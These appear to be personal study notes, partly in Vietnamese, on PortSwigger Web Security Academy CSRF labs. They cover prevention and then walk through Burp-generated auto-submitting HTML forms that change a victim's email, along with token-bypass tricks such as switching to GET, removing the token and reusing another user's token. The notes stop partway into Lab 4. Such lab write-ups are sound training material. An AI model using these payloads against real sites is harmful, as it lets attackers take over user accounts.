

# [CSRF](https://portswigger.net/web-security/csrf)

Causes and Conditions: 

- Applications rely solely on session cookies for authentication without verifying request origin
- Absence of anti-CSRF tokens or SameSite cookie attributes.
- 3 conditions: 
  - A relevant action: email change,...
  - Cookie-based session handling
  - No unpredictable request parameters: request to change password require the old one,...


Impact: 

- Unauthorized actions performed on behalf of authenticated users

- Potential account compromise, fund transfers, or data tampering

Categories: 

- 

Prevention:  

- Use SameSite=strict or SameSite=lax cookie attributes.
- Implement anti-CSRF tokens in state-changing requests.
- Verify the origin or Referer headers server-side.

XSS vs CSRF:

- 

Common Payloads through Labs Completion:

## - Apprentice

### [Lab 1: CSRF vulnerability with no defenses](https://portswigger.net/web-security/csrf/lab-no-defenses)

- Log in using the given cred:


- Using function auto generate CSRF POC of Burpsuite pro: 


```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0aa9008403583938804017ea00ce00dd.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="n33r9&#64;hacker4&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```

- Submit it to the exploit server: tab `body` ` and get the result of email change: 


=> Change email successfully!

## - Practitioner

### [Lab 1: CSRF where token validation depends on request method](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-validation-depends-on-request-method)


- Send request to repeater and change csrf parameter and observe the result: 



- Change request method: GET

`GET /my-account/change-email?email=n33r9%40hacker3.com&csrf=n33r9`


=> HTTP/2 302 Found

- Gen new CSRF payload:

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a0c00d80307391e8053354f00840064.web-security-academy.net/my-account/change-email">
      <input type="hidden" name="email" value="n33r9&#64;hacker3&#46;com" />
      <input type="hidden" name="csrf" value="n33r9" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

```

 


### [Lab 2: CSRF where token validation depends on token being present](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-validation-depends-on-token-being-present)

Lab des: 

**Chức năng đổi email** không thực sự kiểm tra giá trị của token CSRF – chỉ cần token tồn tại trong request là hợp lệ.

=> Cho phép tấn công CSRF bằng cách gửi một form giả tới `/my-account/change-email` kèm theo một token bất kỳ.

steps:

- Thay đổi email:

 


- Thay đổi gái trị csrf :

 


- XOá hẳn csrf

 

- gen csrf poc sử dụng burpsuite

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0afe00de03a17bee805f2bc0001500a7.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="thao&#46;khong&#64;lq&#46;co" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

```


### [Lab 3: CSRF where token is not tied to user session](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-not-tied-to-user-session)

Lab des:

Ứng dụng có chức năng đổi email dùng CSRF token.

Tuy nhiên, CSRF token không gắn chặt với session ⇒ server không kiểm tra token có hợp lệ với người dùng hay không, chỉ cần *token hợp lệ về mặt cú pháp* là được.

=> Lấy token từ chính tài khoản của mình => tấn công tài khoản khác (carlos)

steps: 

- login as `wiener` => csrf token: 

  ```js
  email=thao.khong%40lqd1.vn&csrf=59GRiBb3KQKFxgenN5zZn3fbb13IOWJf
  ```

- login as `carlos` => csrf token ở tab ẩn danh:


```
bawV7IZTxbuEr8pzUH0LXrcQI8a6P0fG
```

- Đổi csrf token từ carlos sang wiener:

  ```
  email=wienr2%40test1.com&csrf=bawV7IZTxbuEr8pzUH0LXrcQI8a6P0fG
  ```

  

302 found => csrf không gắn với session

- craft payload:

```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a5b007d04bde8c180a958ae00db00ee.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="wienr2&#64;testsuccess&#46;com" />
      <input type="hidden" name="csrf" value="59GRiBb3KQKFxgenN5zZn3fbb13IOWJf" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>

```


### [Lab 4: CSRF where token is tied to non-session cookie](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-tied-to-non-session-cookie)

lab des: 

Token csrf chưa được tích hợp và kiểm tra chặt chẽ cùng với session cookie.

steps:

